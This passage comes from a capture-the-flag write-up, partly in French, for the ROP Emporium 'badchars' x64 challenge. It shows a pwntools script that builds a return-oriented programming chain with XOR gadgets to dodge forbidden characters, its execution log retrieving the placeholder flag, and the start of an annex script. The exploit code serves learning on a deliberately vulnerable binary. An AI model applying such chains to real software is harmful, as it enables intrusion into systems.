 ``` python

PL+=p64(pop_r15)
PL+=p64(bss+6)
PL+=p64(xor_r15)

PL+=p64(pop_rdi)
PL+=p64(bss)
PL+=p64(print_file)

io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)

# io.recvuntil(b"> ")
io.sendline(PL)
io.interactive()

```

### Execution

``` sh
05_badchars# python3 solve.py
[*] '/w/ropemporium/x64/05_badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/w/ropemporium/x64/05_badchars/badchars': pid 72
[*] Switching to interactive mode
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

## Annexe

### Python script applying write4 method

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# Attaque naive de badchars avec l'approche de write4
# break apres le read dans pwnme
gs='''
b *pwnme+268
c
'''

# Gadgets
# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```